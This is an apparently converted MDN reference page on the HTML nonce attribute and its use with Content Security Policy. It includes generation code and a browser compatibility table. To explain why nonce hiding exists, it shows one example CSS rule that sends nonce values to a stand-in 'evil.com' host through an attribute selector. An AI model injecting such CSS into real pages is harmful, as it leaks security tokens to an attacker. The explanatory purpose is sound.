 nonce
=====

The `nonce` [global attribute](_Resources/Markup%20And%20Styling/html/global_attributes/index.md) is a content
attribute defining a cryptographic nonce (\"number used once\") which
can be used by [Content Security
Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) to
determine whether or not a given fetch will be allowed to proceed for a
given element.

Description
-----------

The `nonce` attribute is useful to allowlist specific elements, such as
a particular inline script or style elements. It can help you to avoid
using the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
`unsafe-inline` directive, which would allowlist *all* inline scripts or
styles.

**Note:** Only use `nonce` for cases where you have no way around using
unsafe inline script or style contents. If you don\'t need `nonce`,
don\'t use it. If your script is static, you could also use a CSP hash
instead. (See usage notes on [unsafe inline
script](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
Always try to take full advantage of
[CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) protections
and avoid nonces or unsafe inline scripts whenever possible.

### Using nonce to allowlist a \<script\> element

There are a few steps involved to allowlist an inline script using the
nonce mechanism:

#### Generating values

From your web server, generate a random base64-encoded string of at
least 128 bits of data from a cryptographically secure random number
generator. Nonces should be generated differently each time the page
loads (nonce only once!). For example, in nodejs:

[js]

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Allowlisting inline script

The nonce generated on your backend code should now be used for the
inline script that you\'d like to allowlist:

[html]

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Sending a nonce with a CSP header

Finally, you\'ll need to send the nonce value in a
[`Content-Security-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
header (prepend `nonce-`):

[http]

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Accessing nonces and nonce hiding

For security reasons, the `nonce` content attribute is hidden (an empty
string will be returned).

[js]

```js
script.getAttribute("nonce"); // returns empty string
```

The
[`nonce`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/nonce)
property is the only way to access nonces:

[js]

```js
script.nonce; // returns nonce value
```

Nonce hiding helps prevent attackers from exfiltrating nonce data via
mechanisms that can grab data from content attributes like this:

[css]

```css
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever>>");
}

```

Specifications
--------------

  ------------------------------------------------------------------------------------------------

Specification
  ------------------------------------------------------------------------------------------------

  [HTML Standard\
  [\#
  attr-nonce]](https://html.spec.whatwg.org/multipage/urls-and-fetching.html#attr-nonce)

  ------------------------------------------------------------------------------------------------

Browser compatibility
---------------------

Desktop

Mobile

Chrome

Edge

Firefox

Internet Explorer

Opera

Safari

WebView Android

Chrome Android

Firefox for Android

Opera Android

Safari on IOS

Samsung Internet

`nonce`

Yes

Yes

31

No

Yes

Yes

Yes

Yes

31

Yes

Yes

Yes

`nonce_hiding`

61

79

75

No

48

No

61

61

79

45

No

8.0

See also
--------

- [`HTMLElement.nonce`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/nonce)
- [Content Security
    Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- CSP:
    [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)

© 2005--2023 MDN contributors.\
Licensed under the Creative Commons Attribution-ShareAlike License v2.5
or later.\
https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce>
